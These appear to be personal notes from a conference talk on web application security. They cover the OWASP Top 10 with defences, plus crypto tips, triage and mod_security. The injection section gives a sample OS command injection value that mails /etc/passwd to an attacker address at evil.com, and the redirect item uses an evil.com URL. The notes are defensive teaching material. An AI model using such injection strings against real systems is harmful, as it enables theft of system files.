 Application Security

Aaron Bedra

(I got here 15 minutes late... hallway track kept me up)


# OWASP Top 10

In reverse order (10 is hoogityboogity bad)


1. Unvalidated redirects and forwards

  - /session/new?redirect-http://evil.com
  - and evil.com is a web form that looks exactly like the one the user just entered
  - so user enters their credentials again

  - How to defend:
    - don't involve user values in redirect
    - use mapping value and keep a lookup table
    - parse value into url and check host whitelist, i.e. new URL(redirect) and validate that object against a known good hostlist


2. keep up on security patches

  - monitor security of components... OS, languages, etc
  - sign up for mailing lists
  - http://oss-security.openwall.org/wiki/mailing-lists/oss-security
  - Establish protocol for security updates


3. CSRF

  - "confused deputy problem" -- the browser is the confused deputy
  - trick browser into abusing its authority
  - ideally the tricked user never knows they got duped

  - How to defend
    - Use your frameworks' CSRF protection
    - Include random token on each page
      - keep it in the session
      - check this token on submission


4. Missing function level access control

  - renamed; used to be "missing check on url action" or some such thing
  - can any old user get to /admin/home?
  - check access control on every page, not just hiding links or redirects behind authorization checks


5. Sensitive Data Exposure

  - big, ambiguous topic

  - his two points:

  1. storing sensitive data unknowingly
    - logs, eg storing passwords
    - exception emails
      - logging credit card numbers in the exception system, eg
    - avoid putting sensitive stuff in query string parameters, because it'll definitely show up in web logs
    - or putting sensitive information in query strings that link to other sites
      - because now that information has escaped out into the wild and into other sites

    -- passwords, SSN, Bank accounts, credit card numbers, oauth tokens


    - So:
     - never put sensitive params in query strings
     - check that logs and exceptions are filtered
     - be careful what you log

  1. password storage
    - don't do this: sha1(password)

    - it does have one desirable property: if you look directly in the database, you can't see what a password is

    - so it evolved: sha1(salt + password)
     - does defeat rainbow tables
     - forces focus on one password

     - undesirable: it's still very fast, so you can guess billions of passwords per second

    - We want slow
       -bcrypt, scrypt, pbkdf2
       - "adaptive hashing"

    - Delegate authentication when possible
     - facebook, twitter, google, github
     - though don't expect a bank to do this
    - store one way verifiers using bcrypt, scrypt, or pbdkf2
      - tune adaptive hash to servers
        - ratchet up the computation time depending on strength of server

6. Security misconfiguration

  - exposing error data, such as CF's extended debugging, or the .NET yellow screen of death
  - having services open on server
    - would turn up in an nmap scan
  - leaving components with default usernames / passwords


7. Insecure direct object references

  - GET /users/5
  - it's a bad thing if you can just change a url param and see something that you shouldn't be able to see
    - in this case, does the user have authorization to access user id 5

  - check out chrome's "copy as cURL", also copy as HAR for unrelated things

  - look into "tamper data"


8. XSS

  - steal cookies
    - unless httponly flag
  - redirect users to phishing site
  - siphon off data entered onto site
  - perform complicated csrf

  - How to prevent:
    - escape output
      - prefer an automated system
    - never trust user input

9. Broken authentication and session management

  - reminds us of firesheep, used on open wifi to sniff packets in the raw
  - when app sends along a session cookie in the clear, all you had to do was take that session cookie out, put it in your browser, and you are now that user
    - this is why you need SSL

  - How to prevent:

    - only transmit session cookies over ssl
      - flag cookies as secure
      - tells browser not to send cookie if browser isn't on ssl
    - ensure sessions timeout
    - rotate sessions on login
      - addresses session fixation
    - use http strict transport security
      - tells browser to always use SSL, even if user requests non-ssl version
      - you can work with browser vendors to have your site added by default on install


10. Injection

  - sql injection
  - os injection
    - so you pass a url/form param through to an os tool, like clamscan, but you escape it so it's like $foo&mail -t me@evil.com < /etc/passwd




# WebGoat

- I could not get this going on my machine... tomcat errors.
- Hell, I can't even run my own tomcat now. but it looks simple to get going: unzip webgoat, run webgoat.sh start8080, and go




# Crypto

keyczar from google, python and java - for doing crypto right, because straight java is so hard to get right
- anytime you new up an instance of a symmetric algorithm, you'll probably doing it wrong

nacl or salts is another (I think)

- don't use ECB mode in ciphers... python it's the default
  - check out the image of tux on wikipedia ecb mode page

- prefer cbc mode (cipher block chaining mode)



# Triage


- git grep raw, in a rails app, to find cases of raw being used

- what are the equivalent baddies in django?

- look into some of the tools here: http://www.opensourcetesting.org/security.php


#mod security

- module for apache, nginx, iis
- apache version most mature

- you're going to have to tune the heck out of it, because it's going to find a lot of things that it thinks are bad

- you can disable protection on specific paths and even fields in the rules files

- can turn on DetectOnly mode, which will log all the things but not block users